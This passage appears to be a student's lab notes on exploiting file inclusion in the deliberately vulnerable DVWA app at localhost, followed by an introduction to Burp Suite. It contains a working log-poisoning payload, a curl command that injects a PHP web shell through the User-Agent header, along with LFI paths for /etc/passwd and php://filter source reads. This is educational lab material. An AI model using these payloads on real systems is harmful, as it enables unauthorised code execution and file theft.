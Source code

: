 - Remote File Inclusion RFI (execute malicious code).
  - attacker causes the server to include and execute a remote resource (including attacker-controlled PHP (demo via test_include.php and a webroot rfi_demo.php).
  -  RFI requires server-side support for including remote URLs (PHP allow_url_include).
  -  RFI requires additional PHP settings; allow_url_include = Off prevents direct RFI.
  -  allow_url_include = Off prevented direct remote http:// RFI on this host; log-poisoning and local file. inclusion were explored.
  -  Including a locally created PHP file (/var/www/html/test_include.php) via the vulnerable page parameter executed code as www-data — demonstrating LFI leading to code execution. allow_url_include remained Off, so I Indirect RFI was performed.
  -  Log-Poisoning (LFI → RCE vector)
     - Definition: An exploitation technique where an attacker injects PHP code into server-writable artifacts (access log, error log, upload entries, session files) and then uses LFI to include and execute that log, resulting in RCE.
     - curl -s -A '<?php /*LOG123*/ system($_GET["cmd"]); ?>' "http://127.0.0.1/DVWA/"
     - sudo tail -n 40 /var/log/apache2/access.log
     -  include the log (logged-in session required):
     -  http://127.0.0.1/DVWA/vulnerabilities/fi/?page=/var/log/apache2/access.log&cmd=id
- Causes
  - Unsanitized user input used directly in include, require, or file access APIs.
  - Overly permissive server/PHP settings: e.g., allow_url_include = On, weak open_basedir or world-readable config/log files.
  - Poor design: dynamically including files by raw name or path supplied by user instead of mapping tokens to known resources.
- Typical vulnerable code pattern (PHP example)
    - // Vulnerable: directly includes whatever the user supplies
    - $page = $_GET['page']; include($page);
    - This lets an attacker control what include() tries to open/include.
- Execution Steps
   - A. LFI — file reads
     - /etc/passwd — classic proof (world-readable), shows web user/home directories.
     - /etc/hosts & /etc/hostname — low-risk proofs that show host identity.
     - php://filter/convert.base64-encode/resource=/path/to/file.php — retrieve PHP source without executing it (base64 output decoded locally).
     - What this proves: The application can read arbitrary files via the page parameter → Information disclosure.
   - B. Include execution (code exec proof)
     - Created /var/www/html/test_include.php containing echo + environment info (PHP version, get_current_user(), getmyuid(), getcwd()).
     - Included via DVWA:  http://127.0.0.1/DVWA/vulnerabilities/fi/?page=/var/www/html/test_include.php
   - Output showed Current user: www-data and environment details.
     - What this proves: The app executes included PHP code as the webserver user — a direct path to code execution if an attacker can place PHP code into an includable location.


STEP 5-  Burp Suite Advanced

- Burp Suite is an integrated platform for testing web application security. Its core components (Proxy, Repeater, Intruder, Scanner, Decoder, Sequencer, Comparer, and Extender) let you intercept, manipulate, and automate HTTP(S) traffic to discover and verify vulnerabilities. 
- In this section we focus on two common, high-value activities:
  - Intercepting & modifying login requests (manual testing & fault-injection)
  - Fuzzing with Intruder (automated parameter testing / brute force / payload permutation)
- These techniques are essential to assess authentication weaknesses, CSRF/token handling, input validation, and brute-force resistance. Use them only in authorized, lab or pentest engagements.
  
